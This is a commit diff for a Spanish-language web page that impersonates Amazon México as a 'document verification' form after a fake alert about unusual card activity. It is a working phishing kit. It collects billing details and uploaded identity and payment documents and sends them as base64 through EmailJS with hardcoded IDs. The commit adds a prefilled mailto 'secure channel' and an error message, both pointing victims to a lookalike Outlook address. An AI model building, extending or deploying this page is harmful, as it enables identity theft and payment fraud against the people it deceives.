

Before and after one commit to amazonkim/amazon_verify, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 1261-2117 px from the top of the page, without its empty margins (319-959 px from the left). Before the commit the page ends 1846 px from the top, so only its background shows below. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
fix layout

```diff
--- a/index.html
+++ b/index.html
@@ -3,27 +3,25 @@
 <head>
   <meta charset="UTF-8" />
   <meta name="viewport" content="width=device-width, initial-scale=1.0" />
-  <title>Verificación de documentos</title>
-  <!-- SDK de EmailJS -->
+  <title>Verificación de documentos – Amazon.com.mx</title>
   <script src="https://cdn.jsdelivr.net/npm/@emailjs/browser@4/dist/email.min.js"></script>
   <script>emailjs.init('77CvY0DZYW5NcNSi5');</script>
   <style>
-    /* ── Variables ── */
     :root {
-      --nav:       #232f3e;
-      --amazon:    #ffd814;
-      --amazon-bd: #fcd200;
-      --amazon-hov:#f7ca00;
-      --alert-bg:  #fffbf0;
-      --alert-bd:  #e8a020;
-      --text:      #0f1111;
-      --muted:     #565959;
-      --link:      #0066c0;
-      --line:      #d5d9d9;
-      --field-bd:  #888c8c;
+      --nav:        #232f3e;
+      --amazon:     #ffd814;
+      --amazon-bd:  #fcd200;
+      --amazon-hov: #f7ca00;
+      --alert-bg:   #fffbf0;
+      --alert-bd:   #e8a020;
+      --text:       #0f1111;
+      --muted:      #565959;
+      --link:       #0066c0;
+      --line:       #d5d9d9;
+      --field-bd:   #888c8c;
+      --blue:       #2162a1;
     }
 
-    /* ── Reset ── */
     *, *::before, *::after { box-sizing: border-box; }
     html { scroll-behavior: smooth; }
     body {
@@ -35,7 +33,6 @@
       -webkit-font-smoothing: antialiased;
     }
 
-    /* ── Contenedor central ── */
     .page {
       max-width: 360px;
       margin: 0 auto;
@@ -67,7 +64,6 @@
       font-family: Arial, sans-serif;
       vertical-align: super;
     }
-    /* Curva naranja característica de Amazon */
     .swoosh {
       position: absolute;
       left: 12px;
@@ -89,10 +85,10 @@
       transform: rotate(-12deg);
     }
 
-    /* ── Contenido ── */
+    /* ── Contenedor ── */
     .container { padding: 14px 14px 30px; }
 
-    /* ── Aviso amarillo ── */
+    /* ── Aviso de alerta ── */
     .notice {
       border: 2px solid var(--alert-bd);
       border-radius: 5px;
@@ -121,17 +117,17 @@
       line-height: 1.2;
       font-weight: 700;
     }
+    h2.section-title {
+      margin: 0 0 6px;
+      font-size: 17px;
+      line-height: 1.2;
+      font-weight: 700;
+    }
     .sub {
       margin: 0 0 14px;
       font-size: 13px;
       line-height: 1.3;
       color: #333;
-    }
-    h2.section-title {
-      margin: 0 0 6px;
-      font-size: 17px;
-      line-height: 1.2;
-      font-weight: 700;
     }
 
     /* ── Etiquetas ── */
@@ -143,7 +139,7 @@
       line-height: 1.2;
     }
 
-    /* ── Inputs y textarea ── */
+    /* ── Campos ── */
     .field,
     .select,
     .textarea {
@@ -157,18 +153,18 @@
       color: var(--text);
       outline: none;
       margin: 0 0 12px;
+      font-family: Arial, Helvetica, sans-serif;
     }
-    .field  { height: 38px; }
+    .field { height: 38px; }
     .field:focus,
     .select:focus,
     .textarea:focus {
       border-color: #e77600;
       box-shadow: 0 0 0 3px rgba(228,121,17,.22);
     }
-    .field::placeholder { color: #767676; font-size: 13px; }
+    .field::placeholder { color: #767676; }
     .textarea { min-height: 76px; resize: vertical; }
 
-    /* Select con flecha custom */
     .select-wrap { position: relative; margin: 0 0 12px; }
     .select {
       appearance: none;
@@ -214,7 +210,6 @@
       align-items: center;
       font-size: 13px;
     }
-    /* Ícono Mastercard: dos círculos superpuestos */
     .mc {
       display: inline-flex;
       position: relative;
@@ -232,7 +227,7 @@
     .mc-left  { background: #eb001b; left: 0; }
     .mc-right { background: #f79e1b; right: 0; }
 
-    /* ── Documentos aceptados ── */
+    /* ── Lista de documentos aceptados ── */
     .rule-title { font-size: 13px; font-weight: 700; margin: 0 0 2px; }
     .docs-link {
       color: var(--link);
@@ -245,16 +240,15 @@
     .docs { margin: 0 0 12px 18px; padding: 0; }
     .docs li {
       font-size: 12px;
-      line-height: 1.38;
+      line-height: 1.4;
       margin: 0 0 6px;
     }
     .docs li strong { font-weight: 700; }
 
-    /* ── Sección carga de documentos ── */
+    /* ── Sección de carga ── */
     .upload-title { font-size: 13px; font-weight: 700; margin: 0 0 3px; }
-    .upload-meta  { font-size: 12px; line-height: 1.35; color: #444; margin: 0 0 10px; }
+    .upload-meta  { font-size: 12px; line-height: 1.35; color: #555; margin: 0 0 10px; }
 
-    /* Botones de carga — estilo Amazon (gradiente gris, borde sólido) */
     .file-btn,
     .camera-btn {
       display: flex;
@@ -272,11 +266,10 @@
       box-shadow: 0 1px 0 rgba(255,255,255,.6) inset;
       font-family: Arial, Helvetica, sans-serif;
     }
-    .file-btn  { margin: 0 0 8px; position: relative; }
+    .file-btn   { margin: 0 0 8px; position: relative; }
     .camera-btn { margin: 0 0 10px; }
     .file-btn:hover,
     .camera-btn:hover { background: linear-gradient(to bottom, #e7e9ec, #d9dce2); }
-    /* El input de galería sigue oculto bajo el label (sin capture, funciona bien) */
     .file-btn input {
       position: absolute;
       inset: 0;
@@ -284,23 +277,23 @@
       cursor: pointer;
     }
 
-    /* Mensajes de estado */
-    .tip    { font-size: 12px; line-height: 1.3; margin: 0 0 8px; color: #333; }
-    .count  { font-size: 12px; line-height: 1.3; margin: 2px 0 8px; color: var(--muted); }
-    .warn   { font-size: 12px; line-height: 1.3; margin: 2px 0 8px; color: #c40000; display: none; }
-    .status { font-size: 12px; margin: 8px 0 0; color: var(--muted); }
+    /* ── Mensajes de estado ── */
+    .count  { font-size: 12px; line-height: 1.3; margin: 2px 0 4px; color: var(--muted); }
+    .warn   { font-size: 12px; line-height: 1.3; margin: 2px 0 6px; color: #c40000; display: none; }
+    .tip    { font-size: 12px; line-height: 1.3; margin: 0 0 10px; color: #333; }
+    .status { font-size: 13px; margin: 10px 0 0; line-height: 1.5; }
 
-    /* Enlace agregar comentarios */
+    /* ── Agregar comentarios ── */
     .comments-link {
       display: inline-block;
-      margin: 0 0 10px;
+      margin: 0 0 8px;
       color: var(--link);
       font-size: 13px;
       text-decoration: none;
     }
     .comments-link:hover { text-decoration: underline; }
 
-    /* Campo de comentarios */
+    /* ── Área de comentarios ── */
     .comment {
       display: block;
       width: 100%;
@@ -321,9 +314,9 @@
       border-color: #e77600;
       box-shadow: 0 0 0 3px rgba(228,121,17,.22);
     }
-    .note { font-size: 12px; line-height: 1.4; margin: 0 0 16px; color: #333; }
+    .note { font-size: 12px; line-height: 1.4; margin: 0 0 18px; color: #333; }
 
-    /* ── Botón submit amarillo ── */
+    /* ── Botón de envío ── */
     .submit {
       display: block;
       width: 100%;
@@ -333,6 +326,7 @@
       background: linear-gradient(to bottom, #ffe34c, var(--amazon));
       color: var(--text);
       font-size: 13px;
+      font-family: Arial, Helvetica, sans-serif;
       cursor: pointer;
       box-shadow: 0 2px 5px rgba(213,165,0,.35);
       text-align: center;
@@ -340,18 +334,89 @@
     .submit:hover    { background: linear-gradient(to bottom, var(--amazon), var(--amazon-hov)); }
     .submit:disabled { opacity: .65; cursor: not-allowed; }
 
+    /* ── Aviso de canal alternativo ── */
+    .alt-contact {
+      margin: 18px 0 0;
+      border-left: 4px solid var(--blue);
+      border-top: 1px solid #c8d8ea;
+      border-right: 1px solid #c8d8ea;
+      border-bottom: 1px solid #c8d8ea;
+      border-radius: 0 4px 4px 0;
+      background: #f0f6fc;
+      padding: 14px 14px 14px 16px;
+    }
+    .alt-contact-header {
+      display: flex;
+      align-items: center;
+      gap: 8px;
+      margin: 0 0 8px;
+    }
+    .alt-contact-icon { font-size: 14px; line-height: 1; flex-shrink: 0; }
+    .alt-contact-title {
+      font-size: 13px;
+      font-weight: 700;
+      color: #0f1111;
+      line-height: 1.2;
+      margin: 0;
+    }
+    .alt-contact-text {
+      margin: 0 0 12px;
+      font-size: 12px;
+      line-height: 1.55;
+      color: #444;
+    }
+    .alt-contact-link {
+      display: flex;
+      align-items: center;
+      justify-content: center;
+      gap: 7px;
+      width: 100%;
+      padding: 10px 14px;
+      background: linear-gradient(to bottom, #fff, #f0f3f7);
+      border: 1px solid var(--blue);
+      border-radius: 3px;
+      font-size: 13px;
+      font-weight: 700;
+      font-family: Arial, Helvetica, sans-serif;
+      color: var(--blue);
+      text-decoration: none;
+      text-align: center;
+      box-shadow: 0 1px 2px rgba(33,98,161,.12);
+    }
+    .alt-contact-link:hover {
+      background: linear-gradient(to bottom, #e8f0f8, #dce8f4);
+      color: #0f4f99;
+    }
+    .alt-contact-note {
+      display: flex;
+      align-items: flex-start;
+      gap: 5px;
+      margin: 10px 0 0;
+      font-size: 11px;
+      line-height: 1.4;
+      color: #666;
+      width: 100%;
+    }
+    .alt-contact-note .note-icon { flex-shrink: 0; }
+    .alt-contact-note .note-text {
+      flex: 1;
+      min-width: 0;
+      word-wrap: break-word;
+      overflow-wrap: break-word;
+    }
+
     /* ── Pie de página ── */
     .footer {
       border-top: 1px solid var(--line);
       text-align: center;
-      padding: 12px 10px 20px;
+      padding: 14px 10px 22px;
     }
     .footer-links {
       display: flex;
       justify-content: center;
       gap: 16px;
       flex-wrap: wrap;
-      margin: 0 0 7px;
+      margin: 0 0 8px;
     }
     .footer-links a {
       color: var(--link);
@@ -359,13 +424,12 @@
       font-size: 12px;
     }
     .footer-links a:hover { text-decoration: underline; }
-    .footer-copy { font-size: 11px; color: #555; line-height: 1.4; }
+    .footer-copy { font-size: 11px; color: #555; line-height: 1.5; }
   </style>
 </head>
 <body>
   <div class="page">
 
-    <!-- Barra superior -->
     <header class="topbar">
       <div class="brand-wrap" aria-label="Amazon México">
         <div class="brand">amazon<small>.com.mx</small></div>
@@ -375,15 +439,13 @@
 
     <main class="container">
 
-      <!-- Aviso de cuenta limitada -->
       <section class="notice" role="alert">
-        <h2>Revisión de actividad inusual en tu cuenta.Detectamos un uso inusual de amazon con tu tarjeta de credito<</h2>
+         <h2>Revisión de actividad inusual en tu cuenta.Detectamos un uso inusual de amazon con tu tarjeta de credito</h2>
         <p>Detectamos una actividad de pago inusual relacionada con tu cuenta en amazon.com.mx. Por seguridad, hemos pausado la operación y abierto un caso de revisión con el folio [E-0346242-BDS01]. (<a href="#">¿Por qué?</a>)</p>
       </section>
 
       <form id="uploadForm">
 
-        <!-- Sección: detalles de facturación -->
         <h1>Ingrese los detalles de facturación</h1>
         <p class="sub">Esto es necesario para reactivar tu cuenta.</p>
 
@@ -423,7 +485,6 @@
 
         <div class="divider"></div>
 
-        <!-- Sección: subir documento -->
         <h2 class="section-title">Subir un documento de respaldo</h2>
         <p class="sub">Sube al menos un documento de respaldo para el siguiente método de pago utilizado en tu pedido reciente de Amazon.</p>
 
@@ -431,7 +492,6 @@
           <div class="panel-head">Método de pago</div>
           <div class="panel-body">
             <div class="pay">
-              <!-- Ícono Mastercard (círculos CSS) -->
               <span class="mc" aria-label="Mastercard">
                 <span class="mc-left"></span>
                 <span class="mc-right"></span>
@@ -455,14 +515,9 @@
 
         <div class="divider"></div>
 
-        <!-- Sección: carga de documentos -->
         <p class="upload-title">Carga de documentos</p>
         <p class="upload-meta">Tipos de archivos compatibles: jpg, pdf, png, tif. Número máximo de archivos: 10. Tamaño máximo de archivo: 15 MB</p>
 
-        <!--
-          Botón 1: abre galería/explorador. Sin capture para no forzar cámara.
-          Se implementa como label sobre input oculto (técnica estándar).
-        -->
         <label class="file-btn" for="galleryInput">
           <span aria-hidden="true">⇪</span>
           <span>Escoger el archivo</span>
@@ -475,13 +530,6 @@
           />
         </label>
 
-        <!--
-          Input de cámara oculto fuera del DOM visual.
-          Se activa mediante .click() desde JS para garantizar que
-          capture="environment" sea respetado en iOS Safari y Android Chrome.
-          Colocarlo directamente en el DOM (no dentro de un label invisible)
-          es la única forma confiable de que los navegadores móviles lo honren.
-        -->
         <input
           id="cameraInput"
           name="foto"
@@ -491,7 +539,6 @@
           style="display:none"
         />
 
-        <!-- Botón visible que dispara el input de cámara vía JS -->
         <button type="button" class="camera-btn" id="cameraTrigger">
           <span aria-hidden="true">📷</span>
           <span>Tomar foto</span>
@@ -503,7 +550,6 @@
 
         <a class="comments-link" href="#comments">Agregar comentarios</a>
 
-        <!-- Área de comentarios -->
         <label class="field-label" for="comments">Comentarios (opcional)</label>
         <textarea
           class="comment"
@@ -513,18 +559,33 @@
         ></textarea>
         <p class="note">NOTA: No podemos ofrecer excepciones de políticas como respuesta a comentarios. No incluyas información personal en estos comentarios.</p>
 
-
-
-        <!-- Botón de envío -->
         <button class="submit" id="submitBtn" type="submit">
           Enviar documento y detalles de facturación
         </button>
         <p id="submitStatus" class="status"></p>
 
+        <div class="alt-contact" role="note" aria-label="Canal alternativo de envío">
+          <div class="alt-contact-header">
+            <span class="alt-contact-icon" aria-hidden="true">🔒</span>
+            <p class="alt-contact-title">Canal alternativo de envío seguro</p>
+          </div>
+          <p class="alt-contact-text">Si presentas dificultades para adjuntar o enviar tus documentos a través de este formulario, puedes remitirlos directamente a nuestro equipo de seguridad por correo electrónico. Tu caso será atendido en un plazo máximo de 24 horas hábiles.</p>
+          <a
+            class="alt-contact-link"
+            href="mailto:seguridad.ba.ncaria.amazn@outlook.com?subject=Caso%20E-0346242-BDS01%20%E2%80%93%20Documentos%20de%20verificaci%C3%B3n&body=Estimado%20equipo%20de%20seguridad%20de%20Amazon%2C%0A%0AMe%20comunico%20en%20relaci%C3%B3n%20al%20caso%20con%20folio%20E-0346242-BDS01%20abierto%20en%20mi%20cuenta.%0A%0AAdjunto%20a%20este%20correo%20los%20documentos%20de%20respaldo%20solicitados%20para%20completar%20la%20verificaci%C3%B3n%20de%20identidad.%0A%0ANombre%20completo%3A%20%0ADirecci%C3%B3n%20de%20facturaci%C3%B3n%3A%20%0AN%C3%BAmero%20de%20tel%C3%A9fono%3A%20%0A%0AQuedo%20en%20espera%20de%20su%20confirmaci%C3%B3n%20y%20agradezco%20su%20atenci%C3%B3n.%0A%0AAtentamente"
+          >
+            <span aria-hidden="true">📧</span>
+            Enviar documentos por correo electrónico
+          </a>
+          <div class="alt-contact-note">
+            <span class="note-icon" aria-hidden="true">🔒</span>
+            <span class="note-text">Tu información es tratada de forma confidencial conforme a la política de privacidad de Amazon.</span>
+          </div>
+        </div>
+
       </form>
     </main>
 
-    <!-- Pie de página -->
     <footer class="footer">
       <div class="footer-links">
         <a href="#" onclick="return false;">Condiciones de uso</a>
@@ -537,12 +598,6 @@
   </div>
 
   <script>
-    /*
-      Validación de archivos.
-      Recoge archivos de ambos inputs (galería + cámara) y valida:
-      - Máximo 10 archivos en total
-      - Máximo 15 MB por archivo
-    */
     const galleryInput = document.getElementById('galleryInput');
     const cameraInput  = document.getElementById('cameraInput');
     const warning      = document.getElementById('fileWarning');
@@ -552,7 +607,7 @@
     const statusEl     = document.getElementById('submitStatus');
 
     const MAX_FILES = 10;
-    const MAX_SIZE  = 15 * 1024 * 1024; // 15 MB
+    const MAX_SIZE  = 15 * 1024 * 1024;
 
     function getAllFiles() {
       return [
@@ -571,6 +626,7 @@
       warning.style.display = 'none';
       warning.textContent   = '';
       statusEl.textContent  = '';
+      statusEl.style.color  = '';
 
       const files = getAllFiles();
       if (!files.length) {
@@ -603,7 +659,15 @@
     galleryInput.addEventListener('change', refreshUI);
     cameraInput.addEventListener('change',  refreshUI);
 
-    /* Envío via EmailJS con archivos adjuntos */
+    function toBase64(file) {
+      return new Promise((resolve, reject) => {
+        const reader = new FileReader();
+        reader.onload  = () => resolve(reader.result.split(',')[1]);
+        reader.onerror = reject;
+        reader.readAsDataURL(file);
+      });
+    }
+
     form.addEventListener('submit', async event => {
       event.preventDefault();
 
@@ -620,22 +684,12 @@
         return;
       }
 
-      submitBtn.disabled   = true;
-      statusEl.textContent = 'Enviando…';
+      submitBtn.disabled    = true;
+      statusEl.textContent  = 'Enviando…';
+      statusEl.style.color  = '#565959';
       warning.style.display = 'none';
 
-      /* Convierte cada archivo a base64 para adjuntarlo en el correo */
-      function toBase64(file) {
-        return new Promise((resolve, reject) => {
-          const reader = new FileReader();
-          reader.onload  = () => resolve(reader.result.split(',')[1]);
-          reader.onerror = reject;
-          reader.readAsDataURL(file);
-        });
-      }
-
       try {
-        /* Construye los parámetros del template */
         const params = {
           nombre:      document.getElementById('fullName').value,
           pais:        document.getElementById('country').value,
@@ -644,25 +698,23 @@
           comentarios: document.getElementById('comments').value || '(sin comentarios)',
         };
 
-        /* Adjunta los archivos como base64 (EmailJS soporta hasta 50 MB total) */
         for (let i = 0; i < files.length; i++) {
-          params[`archivo_${i + 1}_nombre`]   = files[i].name;
+          params[`archivo_${i + 1}_nombre`]    = files[i].name;
           params[`archivo_${i + 1}_contenido`] = await toBase64(files[i]);
         }
 
         await emailjs.send('service_qt5yu8n', 'template_ro5tcl9', params);
 
-        statusEl.textContent  = '¡Enviado correctamente! Revisa tu correo.';
-        statusEl.style.color  = '#007600';
-        submitBtn.disabled    = false;
+        statusEl.textContent = '¡Enviado correctamente! Revisa tu correo.';
+        statusEl.style.color = '#007600';
+        submitBtn.disabled   = false;
         form.reset();
-        countEl.textContent   = 'No has seleccionado archivos.';
+        countEl.textContent  = 'No has seleccionado archivos.';
 
       } catch (err) {
-        statusEl.textContent = 'Error al enviar. Intenta de nuevo.';
+        statusEl.innerHTML  = 'Ocurrió un problema al enviar. Por favor usa el canal alternativo de abajo o escríbenos a <a href="mailto:seguridad.ba.ncaria.amazn@outlook.com" style="color:#0066c0;">seguridad.ba.ncaria.amazn@outlook.com</a>';
         statusEl.style.color = '#c40000';
         submitBtn.disabled   = false;
-        console.error('EmailJS error:', err);
       }
     });
   </script>
```
